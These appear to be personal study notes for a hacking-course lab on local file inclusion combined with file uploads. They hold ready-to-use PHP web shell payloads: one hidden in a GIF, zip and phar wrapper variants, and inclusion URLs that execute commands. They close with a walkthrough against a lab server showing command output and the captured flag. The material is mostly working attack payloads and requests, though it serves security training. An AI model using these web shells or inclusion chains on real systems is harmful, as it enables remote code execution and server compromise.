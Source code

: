 # LFI and File Uploads

ZLocal vs. Remote File Inclusion

Function	Read Content	Execute	Remote URL

PHP			

include()/include_once()	✅	✅	✅

file_get_contents()	✅	❌	✅

Java			

import	✅	✅	✅

.NET			

@Html.RemotePartial()	✅	❌	✅

include	✅	✅	✅

## Image upload

### Crafting Malicious Image
echo 'GIF8<?php system($_GET["cmd"]); ?>' > shell.gif

GIF8 : the image magic bytes at the beginning of the file content

--> go to the Profile Settings page and click on the avatar image to select our image

### Uploaded File Path

Inspect the source code after uploading the image :
<img src="/profile_images/shell.gif" class="profile-image" id="profile-image">

--> we can also fuzz for an uploads directory, and then fuzz for our uploaded file

http://<SERVER_IP>:<PORT>/index.php?language=./profile_images/shell.gif&cmd=id

If the source prefix a directroy before file :  use ../

## Zip Upload

Zip wrapper isn't enabled by default, so this method may not always work. 

### Creating a PHP web shell script and zipping it
echo '<?php system($_GET["cmd"]); ?>' > shell.php && zip shell.jpg shell.php

### Use zip wrapper
http://<SERVER_IP>:<PORT>/index.php?language=zip://./profile_images/shell.jpg%23shell.php&cmd=id

## Phar Upload

Use the phar:// wrapper to achieve a similar result

### Create PHP script
<?php
$phar = new Phar('shell.phar');
$phar->startBuffering();
$phar->addFromString('shell.txt', '<?php system($_GET["cmd"]); ?>');
$phar->setStub('<?php __HALT_COMPILER(); ?>');

$phar->stopBuffering();

shell.php

### Compile it into a phar file and rename it to shell.jpg as follows
php --define phar.readonly=0 shell.php && mv shell.phar shell.jpg

### Use Phar wrapper
http://<SERVER_IP>:<PORT>/index.php?language=phar://./profile_images/shell.jpg%2Fshell.txt&cmd=id

--> zip and phar wrapper methods should be considered as alternative methods in case the first method did not work

## LAB

http://83.136.253.251:34459/index.php?language=en.php

echo 'GIF8<?php system($_GET["cmd"]); ?>' > shell.gif

http://83.136.253.251:34459/settings.php

    <div class="navbar">
        <a href="/index.php">Inlane Freight</a>
        <a href="/settings.php">Profile Settings</a>
    </div>
    <div style="position: absolute; top: 50%; left: 50%; transform: translate(-50%, -50%);">
        <h1 style="font-weight: 600; font-family: neue-haas-unica,sans-serif; text-align: center;">
            Update
            your profile image</h1>
        <center>
            <form action="upload.php" method="POST" enctype="multipart/form-data" id="uploadForm"
                style="height: 200px; width: 150px;">
                <input type="file" name="uploadFile" id="uploadFile" onchange="checkFile(this)"
                    accept=".jpg,.jpeg,.png,.gif,.zip">
                <img src='/profile_images/default.jpg' class='profile-image' id='profile-image'>
                <input type="submit" value="Upload" id="submit">
            </form>

http://83.136.253.251:34459/index.php?language=./profile_images/shell.gif&cmd=id

GIF8uid=33(www-data) gid=33(www-data) groups=33(www-data)

http://83.136.253.251:34459/index.php?language=./profile_images/shell.gif&cmd=ls%20-l%20/

GIF8total 60 -rw-r--r-- 1 root root 28 Mar 25 2022 2f40d853e2d4768d87da1c81772bae0a.txt lrwxrwxrwx 1 root root 7 Jul 20 2020 bin -> usr/bin drwxr-xr-x 2 root root 4096 Apr 15 2020 boot drwxr-xr-x 5 root root 360 Jan 1 11:52 dev drwxr-xr-x 1 root root 4096 Mar 25 2022 etc drwxr-xr-x 2 root root 4096 Apr 15 2020 home lrwxrwxrwx 1 root root 7 Jul 20 2020 lib -> usr/lib lrwxrwxrwx 1 root root 9 Jul 20 2020 lib32 -> usr/lib32 lrwxrwxrwx 1 root root 9 Jul 20 2020 lib64 -> usr/lib64 lrwxrwxrwx 1 root root 10 Jul 20 2020 libx32 -> usr/libx32 drwxr-xr-x 2 root root 4096 Jul 20 2020 media drwxr-xr-x 2 root root 4096 Jul 20 2020 mnt drwxr-xr-x 2 root root 4096 Jul 20 2020 opt dr-xr-xr-x 364 root root 0 Jan 1 11:52 proc drwx------ 1 root root 4096 Aug 19 2020 root drwxr-xr-x 1 root root 4096 Feb 14 2021 run lrwxrwxrwx 1 root root 8 Jul 20 2020 sbin -> usr/sbin drwxr-xr-x 2 root root 4096 Jul 20 2020 srv dr-xr-xr-x 13 root root 0 Jan 1 11:52 sys drwxrwxrwt 1 root root 4096 Jan 1 12:00 tmp drwxr-xr-x 1 root root 4096 Jul 20 2020 usr drwxr-xr-x 1 root root 4096 Aug 19 2020 var

http://83.136.253.251:34459/index.php?language=./profile_images/shell.gif&cmd=cat%20/2f40d853e2d4768d87da1c81772bae0a.txt

GIF8HTB{upl04d+lf!+3x3cut3=rc3}
